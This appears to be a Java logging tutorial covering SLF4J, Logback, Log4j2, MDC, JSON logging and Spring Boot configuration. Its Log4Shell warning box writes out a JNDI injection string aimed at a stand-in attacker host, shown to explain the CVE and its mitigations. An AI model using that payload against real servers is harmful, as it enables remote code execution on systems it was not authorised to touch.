





# Java Logging (SLF4J, Logback, Log4j2)

Logging is a **critical production concern** that most developers underestimate until something breaks at 2 AM. The Java ecosystem has a layered logging architecture: a **facade** (SLF4J) that decouples your code from the **implementation** (Logback, Log4j2). This page covers the full stack -- from architecture to structured logging for modern observability.

---

!!! danger "CVE-2021-44228 -- Log4Shell (Critical RCE)"
    In December 2021, a **remote code execution** vulnerability was discovered in Log4j2 (versions 2.0-beta9 through 2.14.1). An attacker could inject a JNDI lookup string like `${jndi:ldap://attacker.com/exploit}` into any logged user input, causing the server to download and execute arbitrary code. This was a **CVSS 10.0** -- the maximum severity. **Mitigation:** upgrade to Log4j2 2.17.1+ or use Logback (not affected). This vulnerability illustrates why logging libraries must **never evaluate expressions** in log messages.

---

## Logging Architecture

The Java logging ecosystem is built on the **facade pattern** -- your application code talks to an API (SLF4J), and a binding routes calls to the actual implementation at runtime.



| Component | Artifact | Role |
|---|---|---|
| **SLF4J API** | `slf4j-api` | Facade -- the only dependency your code imports |
| **Logback Classic** | `logback-classic` | Default SLF4J native implementation (by the same author) |
| **Log4j2** | `log4j-slf4j2-impl` | High-performance alternative with async logging |
| **Bridge** | `jcl-over-slf4j`, `log4j-over-slf4j` | Redirect legacy frameworks (JCL, Log4j 1.x) into SLF4J |

---

## Why SLF4J?

SLF4J (Simple Logging Facade for Java) exists to solve the **library dependency problem**: if your library uses Log4j but the application uses Logback, you get conflicts. SLF4J decouples the two.

```java
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

public class OrderService {
    // This code works regardless of whether Logback or Log4j2 is on the classpath
    private static final Logger log = LoggerFactory.getLogger(OrderService.class);

    public void processOrder(String orderId) {
        log.info("Processing order: {}", orderId);  // Parameterized -- no string concat
    }
}
```

**Key benefits:**

- **Swap implementations** without changing a single line of application code
- **Parameterized messages** (`{}` placeholders) -- avoid string concatenation cost
- **Bridge libraries** unify all legacy logging into one pipeline
- **Compile-time safety** -- your code depends only on `slf4j-api`

---

## Log Levels

Log levels form a hierarchy. Setting a level means that level **and all higher levels** are enabled.



| Level | When to Use | Production? |
|---|---|---|
| **TRACE** | Ultra-fine-grained: loop iterations, variable values, method entry/exit | Never |
| **DEBUG** | Diagnostic info for developers: request payloads, SQL queries | Rarely (on-demand) |
| **INFO** | Business events: user login, order placed, job completed | Yes -- default level |
| **WARN** | Recoverable issues: retry attempt, deprecated API usage, slow query | Yes |
| **ERROR** | Failures requiring attention: unhandled exception, external service down | Yes -- alert on these |

!!! tip "Production default: INFO"
    Set root logger to `INFO`. Enable `DEBUG` only for specific packages during incident investigation. Never run `TRACE` in production -- it generates enormous volume and can contain sensitive data.

---

## Logback Configuration

Logback is the **default logging implementation** for Spring Boot. Configure it via `logback-spring.xml` (Spring-aware) or `logback.xml`.

### Basic Configuration

```xml
<!-- src/main/resources/logback-spring.xml -->
<configuration>

    <!-- Console appender with colored output -->
    <appender name="CONSOLE" class="ch.qos.logback.core.ConsoleAppender">
        <encoder>
            <pattern>%d{HH:mm:ss.SSS} %highlight(%-5level) [%thread] %cyan(%logger{36}) - %msg%n</pattern>
        </encoder>
    </appender>

    <!-- Rolling file appender -->
    <appender name="FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
        <file>logs/application.log</file>
        <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
            <fileNamePattern>logs/application.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
            <maxFileSize>100MB</maxFileSize>
            <maxHistory>30</maxHistory>
            <totalSizeCap>3GB</totalSizeCap>
        </rollingPolicy>
        <encoder>
            <pattern>%d{yyyy-MM-dd HH:mm:ss.SSS} %-5level [%thread] %logger{50} - %msg%n</pattern>
        </encoder>
    </appender>

    <!-- Package-level overrides -->
    <logger name="com.myapp.service" level="DEBUG" />
    <logger name="org.hibernate.SQL" level="DEBUG" />
    <logger name="org.springframework" level="WARN" />

    <!-- Root logger -->
    <root level="INFO">
        <appender-ref ref="CONSOLE" />
        <appender-ref ref="FILE" />
    </root>

</configuration>
```

### Pattern Layout Tokens

| Token | Output | Example |
|---|---|---|
| `%d{pattern}` | Timestamp | `2024-03-15 14:30:22.456` |
| `%-5level` | Level (left-padded to 5) | `INFO `, `ERROR` |
| `%thread` | Thread name | `http-nio-8080-exec-1` |
| `%logger{length}` | Logger name (abbreviated) | `c.m.s.OrderService` |
| `%msg` | The log message | `Processing order: ORD-123` |
| `%X{key}` | MDC value | `req-abc-123` (correlation ID) |
| `%n` | Newline | |

### Rolling Policies

| Policy | Use Case |
|---|---|
| `TimeBasedRollingPolicy` | Rotate daily/hourly |
| `SizeAndTimeBasedRollingPolicy` | Rotate by size AND time (recommended) |
| `FixedWindowRollingPolicy` | Fixed number of backup files |

---

## Log4j2 Configuration

Log4j2 is chosen for **high-throughput applications** where logging performance is critical. Its killer feature is **async logging** powered by the LMAX Disruptor.

### Async Logging Architecture



### Log4j2 Configuration (log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <!-- Async appender using LMAX Disruptor -->
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>

        <RollingRandomAccessFile name="File"
            fileName="logs/app.log"
            filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
            <PatternLayout pattern="%d %-5level [%t] %logger{36} - %msg%n"/>
            <Policies>
                <SizeBasedTriggeringPolicy size="100MB"/>
                <TimeBasedTriggeringPolicy interval="1"/>
            </Policies>
            <DefaultRolloverStrategy max="30"/>
        </RollingRandomAccessFile>
    </Appenders>

    <Loggers>
        <!-- Make ALL loggers async (requires disruptor dependency) -->
        <AsyncRoot level="INFO">
            <AppenderRef ref="Console"/>
            <AppenderRef ref="File"/>
        </AsyncRoot>
    </Loggers>
</Configuration>
```

### Enabling Full Async

Add the LMAX Disruptor dependency and set the system property:

```xml
<!-- pom.xml -->
<dependency>
    <groupId>com.lmax</groupId>
    <artifactId>disruptor</artifactId>
    <version>3.4.4</version>
</dependency>
```

```bash
# JVM argument to make ALL loggers async
-Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector
```

| Feature | Logback | Log4j2 |
|---|---|---|
| **Async logging** | AsyncAppender (queue-based) | LMAX Disruptor (lock-free) |
| **Performance** | Good | Excellent (6-68x faster async) |
| **Garbage-free** | No | Yes (in steady state) |
| **Config reload** | Scan interval | Automatic (no lost events) |
| **Spring Boot default** | Yes | No (requires exclusion + dependency) |

---

## MDC (Mapped Diagnostic Context)

MDC provides **thread-local** key-value storage that is automatically included in every log line. This is essential for **distributed tracing** -- correlating all logs from a single request across services.



### Setting MDC in a Filter

```java
import org.slf4j.MDC;
import javax.servlet.*;
import java.util.UUID;

public class CorrelationIdFilter implements Filter {

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        try {
            String correlationId = ((HttpServletRequest) request)
                .getHeader("X-Correlation-ID");
            if (correlationId == null) {
                correlationId = UUID.randomUUID().toString();
            }
            MDC.put("correlationId", correlationId);
            MDC.put("userId", getUserFromContext());

            chain.doFilter(request, response);
        } finally {
            MDC.clear();  // CRITICAL: prevent memory leaks in thread pools
        }
    }
}
```

### Using MDC in Pattern

```xml
<pattern>%d %-5level [%thread] [%X{correlationId}] [%X{userId}] %logger{36} - %msg%n</pattern>
```

**Output:**
```
2024-03-15 14:30:22.456 INFO  [http-exec-1] [req-abc-123] [user-42] OrderService - Processing order: ORD-789
2024-03-15 14:30:22.458 DEBUG [http-exec-1] [req-abc-123] [user-42] OrderRepository - SELECT * FROM orders WHERE id = ?
```

!!! warning "MDC and Async/Virtual Threads"
    MDC uses `ThreadLocal`, so it does **not** automatically propagate to child threads, `CompletableFuture`, or Virtual Threads. Solutions: use `MDC.getCopyOfContextMap()` + `MDC.setContextMap()` in task wrappers, or use Micrometer's context propagation library.

---

## Structured Logging (JSON)

Plain-text logs are for humans. **Structured logs** (JSON) are for machines -- they enable powerful queries in log aggregation systems (ELK Stack, Splunk, Datadog, Loki).

### Logback JSON with Logstash Encoder

```xml
<!-- pom.xml -->
<dependency>
    <groupId>net.logstash.logback</groupId>
    <artifactId>logstash-logback-encoder</artifactId>
    <version>7.4</version>
</dependency>
```

```xml
<!-- logback-spring.xml -->
<appender name="JSON" class="ch.qos.logback.core.ConsoleAppender">
    <encoder class="net.logstash.logback.encoder.LogstashEncoder">
        <includeMdcKeyName>correlationId</includeMdcKeyName>
        <includeMdcKeyName>userId</includeMdcKeyName>
    </encoder>
</appender>
```

**JSON output:**
```json
{
  "@timestamp": "2024-03-15T14:30:22.456Z",
  "level": "INFO",
  "thread_name": "http-exec-1",
  "logger_name": "com.myapp.OrderService",
  "message": "Processing order: ORD-789",
  "correlationId": "req-abc-123",
  "userId": "user-42",
  "stack_trace": null
}
```

### Adding Custom Fields

```java
import net.logstash.logback.argument.StructuredArguments;
import static net.logstash.logback.argument.StructuredArguments.*;

log.info("Order processed: {}", keyValue("orderId", orderId));
// JSON includes: "orderId": "ORD-789" as a top-level field
```

### Log Aggregation Pipeline



---

## Performance Tips

Logging can become a **bottleneck** in high-throughput systems. These practices prevent unnecessary CPU/memory waste.

### 1. Parameterized Logging (Always Use `{}`)

```java
// BAD: String concatenation happens BEFORE level check
log.debug("User " + userId + " placed order " + orderId);  // Allocates even if DEBUG is off

// GOOD: Parameters evaluated only if DEBUG is enabled
log.debug("User {} placed order {}", userId, orderId);
```

### 2. Guard Expensive Operations

```java
// Use isDebugEnabled() only for EXPENSIVE computations
if (log.isDebugEnabled()) {
    log.debug("Cart contents: {}", cart.toDetailedString());  // Avoid if toDetailedString() is costly
}

// For simple values, {} is sufficient -- no guard needed
log.debug("Processing item: {}", itemId);
```

### 3. Lazy Evaluation (SLF4J 2.0+)

```java
// SLF4J 2.0 fluent API with lazy suppliers
log.atDebug()
    .setMessage("Payload: {}")
    .addArgument(() -> expensiveSerialize(payload))  // Lambda only invoked if DEBUG is on
    .log();
```

### 4. Avoid Logging in Hot Loops

```java
// BAD: Millions of log calls in a tight loop
for (Item item : largeList) {
    log.debug("Processing item: {}", item.getId());  // Even with {} -- method call overhead
}

// GOOD: Log summary
log.info("Processed {} items in {}ms", largeList.size(), duration);
```

### 5. Use Async Logging for High Throughput

- Logback: `AsyncAppender` (wraps any appender, uses a queue)
- Log4j2: `AsyncLogger` with LMAX Disruptor (lock-free, vastly faster)

---

## Common Pitfalls

### 1. Logging Sensitive Data

```java
// NEVER log passwords, tokens, credit cards, PII
log.info("User login: {}, password: {}", username, password);     // TERRIBLE
log.info("Payment with card: {}", creditCardNumber);              // TERRIBLE

// Use masking or omit entirely
log.info("User login: {}", username);
log.info("Payment processed for card ending in {}", last4Digits);
```

### 2. String Concatenation in Log Statements

```java
// WRONG: Concatenation happens regardless of log level
log.debug("Response: " + response.toString());

// RIGHT: Use parameterized logging
log.debug("Response: {}", response);
```

### 3. Wrong Log Level in Production

```java
// Root level set to DEBUG in production = disaster
// Symptoms: disk fills up, performance degrades, sensitive data exposed
// Rule: Production root = INFO, enable DEBUG per-package temporarily
```

### 4. Forgetting to Clear MDC

```java
// In thread pools, threads are reused. Old MDC values leak into new requests.
// ALWAYS clear in a finally block
try {
    MDC.put("requestId", id);
    // ... handle request
} finally {
    MDC.clear();
}
```

### 5. Catching and Logging + Rethrowing

```java
// WRONG: Same exception logged multiple times up the stack
try {
    processOrder(order);
} catch (Exception e) {
    log.error("Failed to process order", e);
    throw e;  // The caller will ALSO log this -- duplicate noise
}

// RIGHT: Log at the boundary (controller/entry point) OR rethrow, not both
```

### 6. Using System.out.println

```java
// NEVER use in production code
System.out.println("Debug: " + value);  // No level, no timestamp, no MDC, no filtering

// Use a logger
log.debug("Value: {}", value);
```

---

## Spring Boot Logging Auto-Configuration

Spring Boot **auto-configures Logback** with sensible defaults. Zero-config logging works out of the box.

### Default Behavior

| Feature | Default |
|---|---|
| **Implementation** | Logback (via `spring-boot-starter-logging`) |
| **Root level** | INFO |
| **Console output** | Enabled (colored if terminal supports it) |
| **File output** | Disabled (enable via `logging.file.name`) |
| **Pattern** | Date, level, PID, thread, logger, message |

### application.yml Configuration

```yaml
logging:
  level:
    root: INFO
    com.myapp: DEBUG
    org.hibernate.SQL: DEBUG
    org.springframework.web: WARN

  file:
    name: logs/application.log

  logback:
    rollingpolicy:
      max-file-size: 100MB
      max-history: 30
      total-size-cap: 3GB

  pattern:
    console: "%d{HH:mm:ss} %clr(%-5level) [%thread] %logger{36} - %msg%n"
    file: "%d{yyyy-MM-dd HH:mm:ss.SSS} %-5level [%thread] %logger{50} - %msg%n"
```

### Switching to Log4j2

```xml
<!-- pom.xml: Exclude Logback, add Log4j2 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```

### Profile-Specific Logging

```xml
<!-- logback-spring.xml: Spring profiles in logging config -->
<springProfile name="dev">
    <root level="DEBUG">
        <appender-ref ref="CONSOLE" />
    </root>
</springProfile>

<springProfile name="prod">
    <root level="INFO">
        <appender-ref ref="JSON" />
        <appender-ref ref="FILE" />
    </root>
</springProfile>
```

---

## Quick Recall

| Topic | Key Takeaway |
|---|---|
| **SLF4J** | Facade pattern -- code against the API, swap implementation via classpath |
| **Logback** | Spring Boot default, good performance, `logback-spring.xml` for Spring profiles |
| **Log4j2** | Async with LMAX Disruptor, garbage-free, best raw throughput |
| **Log4Shell** | CVE-2021-44228 -- never evaluate expressions in log input; upgrade to 2.17.1+ |
| **MDC** | Thread-local context for correlation IDs; always clear in finally blocks |
| **Structured logging** | JSON format (logstash-logback-encoder) for ELK/Splunk/Datadog |
| **Performance** | Use `{}` placeholders, guard expensive ops, async appenders for high throughput |
| **Production level** | Root = INFO; DEBUG only per-package, temporarily |
| **Spring Boot** | Auto-configures Logback; override via application.yml or logback-spring.xml |

---

## Interview Prep

??? note "Explain the relationship between SLF4J, Logback, and Log4j2"
    SLF4J is a **facade** (interface only). Logback and Log4j2 are **implementations**. Your code depends only on `slf4j-api`. At runtime, a binding JAR (e.g., `logback-classic` or `log4j-slf4j2-impl`) routes SLF4J calls to the chosen implementation. This lets you swap logging frameworks without changing application code.

??? note "What is MDC and why is it important in microservices?"
    MDC (Mapped Diagnostic Context) is a thread-local map of key-value pairs automatically appended to every log line. In microservices, you use it to propagate a **correlation ID** across service boundaries, letting you trace a single request through all services in log aggregation tools.

??? note "How does Log4j2 async logging work?"
    Log4j2 uses the LMAX Disruptor -- a lock-free ring buffer data structure. Application threads write log events to the ring buffer (non-blocking), and a dedicated background thread reads events and writes to appenders (disk/network). This achieves throughput 6-68x higher than synchronous logging.

??? note "What was Log4Shell and how do you prevent similar vulnerabilities?"
    Log4Shell (CVE-2021-44228) exploited Log4j2's **message lookup** feature. When a logged string contained `${jndi:ldap://...}`, Log4j2 resolved it as a JNDI lookup, allowing RCE. Prevention: (1) upgrade Log4j2 to 2.17.1+, (2) never allow user input to trigger expression evaluation, (3) set `log4j2.formatMsgNoLookups=true` as a mitigation.

??? note "Why use parameterized logging instead of string concatenation?"
    With concatenation (`"User " + id`), the string is built **regardless** of whether the log level is enabled -- wasting CPU and memory. With parameterized logging (`"User {}", id`), the argument is only converted to a string **if** the level is active. This is especially impactful for DEBUG/TRACE statements that are disabled in production.

??? note "How do you handle MDC with async code (CompletableFuture, Virtual Threads)?"
    MDC uses ThreadLocal, which does not propagate to new threads. Solutions: (1) capture `MDC.getCopyOfContextMap()` before async execution, (2) set it in the new thread with `MDC.setContextMap()`, (3) use decorator patterns on ExecutorService, or (4) use Micrometer Context Propagation for automatic propagation with Project Reactor / Virtual Threads.
